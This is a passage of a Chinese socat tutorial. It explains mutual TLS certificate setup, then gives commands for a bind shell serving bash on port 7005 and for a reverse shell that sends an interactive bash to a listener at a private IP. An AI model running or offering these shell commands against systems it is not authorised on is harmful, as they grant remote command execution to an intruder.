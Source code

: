 服务端证书生成完成后，复制信任证书 server.crt 到 SSL 客户端所在的主机上。

1. 生成客户端证书

```
# 为客户端证书取一个不同的文件名
$ FILENAME=client
```

重复上述服务端生成证书的流程。然后复制 client.pem 到 SSL 客户端主机，复制 client.crt 到服务端主机。至此完成了证书交换，服务端有 server.pem、client.crt 两个文件，客户端有 client.pem 、server.crt 两个文件。

其次我们需要建立 Openssl 服务端，在服务端我们不再用 tcp-listen (tcp-l) ，而用 openssl-listen (ssl-l) 。cert 参数告诉 Socat 包含证书和私钥的文件，cafile 参数指向客户端的证书文件。如果客户端能提供相关联的私钥，我们则认为该连接是可靠的。

```
$ socat openssl-listen:4433,reuseaddr,cert=server.pem,cafile=client.crt echo
```

运行这个命令后，Socat 会在 4433 端口监听，并要求客户端进行身份验证。

最后在客户端建立一个加密的链接，用 openssl-connect 或者 ssl 替换你的 tcp-connect 或 tcp 地址关键字，然后添加 cert 和 cafile 选项。

```
$ socat stdio openssl-connect:server.domain.org:4433,cert=client.pem,cafile=server.crt
test
test
```

这个命令用来建立一个到服务程序的安全的连接。如果服务端和客户端成功建立连接后，会回显在客户端输入的内容。

- 建立一个正向 Shell

1. 服务端

```
# 在服务端 7005 端口建立一个 Shell。
$ socat TCP-LISTEN:7005,fork,reuseaddr EXEC:/bin/bash,pty,stderr
或者
$ socat TCP-LISTEN:7005,fork,reuseaddr system:bash,pty,stderr
```

1. 客户端

```
# 连接到服务器的 7005 端口，即可获得一个 Shell。readline 是 GNU 的命令行编辑器，具有历史功能。
$ socat readline tcp:127.0.0.1:7005
```

- 反弹一个交互式的 Shell

当有主机连接服务端的 7005 端口时，将会发送客户端的 Shell 给服务端。

1. 服务端

```
$ socat -,raw,echo=0 tcp-listen:7005
```

1. 客户端

```
$ socat tcp-connect:192.168.1.252:7005 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
